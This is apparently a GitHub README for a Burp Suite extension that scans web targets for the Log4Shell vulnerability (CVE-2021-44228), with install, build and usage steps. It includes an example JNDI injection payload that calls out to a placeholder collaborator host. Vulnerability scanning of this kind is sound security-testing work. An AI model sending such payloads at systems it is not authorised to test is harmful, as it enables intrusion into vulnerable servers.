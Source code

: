 <h1 align="center">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner"><img src="https://github.com/0xDexter0us/Log4J-Scanner/blob/main/images/log4j-scanner.png"  alt="log4j" width="450" align="middle" style="vertical-align:top"></a>
</h1>

<h4 align="center">Burp extension to scan Log4Shell (CVE-2021-44228) vulnerability with custom payloads.</h4>

---

<p align="center">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/release/0xDexter0us/Log4J-Scanner.svg">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/downloads/0xDexter0us/Log4J-Scanner/total?label=downloads&logo=github&color=inactive">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
      <img src="https://img.shields.io/github/stars/0xDexter0us/Log4J-Scanner.svg?style=social&label=Stars">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
    <img src="https://img.shields.io/github/followers/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=0xDexter0us">
      <img src="https://img.shields.io/twitter/follow/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://discord.gg/bugbounty">
      <img src="https://img.shields.io/badge/chat-on%20discord-7289da.svg">
  </a>

</p>

---
## Disclaimer
> I am not responsible for your actions, burp-suite freezing, target getting hacked, thermonuclear war, or the current economic crisis caused by you following these directions. YOU are choosing to use this tool, and if you point your finger at me for messing anything up, I will LMAO at you.

---
![Usage Gif](https://github.com/0xDexter0us/Log4J-Scanner/blob/main/images/usage.gif)

## Instructions:
 - Install the extension either from pre-compiled releases or build from source.
 - Disable/Uncheck all other active scanning extensions like active scan++, burp bounty pro, param-miner etc.
 - From Top-Menu open settings of Log4J Scanner.
 - Add your custom payload and save settings.
 - Select your target > right-click > Scan.
 - Select `Scan Configuration` > `Select from library`
 - Only select `Audit checks - extensions only` and hit OK button.

Special thanks to [Silent Signal](https://github.com/silentsignal), instructions and scan configurations are inspired from his extension.


### Important instructions to remember:
 - In your custom payload DO __NOT__ add your collaborator url, just add `[collaborator-server]` as a placeholder,
 - `[collaborator-server` will be replaced by your collaborator server url itself.
 - Example payload: `"${jndi:ldap://[collaborator-server]/a}`


## Download releases
`https://github.com/0xDexter0us/Log4J-Scanner/releases/`

## Build from source
* `./gradlew build fatJar`
* Grab the jar file `build/libs/Log4J-Scanner-x.x.x.jar`

## Installation
1. Download the latest jar from releases or build from source.
2. Add the jar to Burp Suite.



#### If you like the project, please give the repo a star! <3

## Resources

- For passive scanning: `https://github.com/f0ng/log4j2burpscanner`
- For active scanning: `https://github.com/albinowax/ActiveScanPlusPlus` & `https://github.com/silentsignal/burp-log4shell`


## Changelog
**25 December 2021 - v0.2.0**
 - Added Burp Collaborator api.
 - Removed custom scanner.
 - Added Burp scanner api.

**13 December 2021 - v0.1.0**
 - First public release

## Thanks To

* CoreyD97 - https://github.com/CoreyD97
* Silent Signal - https://github.com/silentsignal


### This was coded be me within a day and is an initial release, bug might occur, bug reports, suggestions and pull requests all are welcome :)

-----

[![Join our Discord server!](https://invidget.switchblade.xyz/bugbounty)](http://discord.gg/bugbounty)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Q5Q76ZT6K)
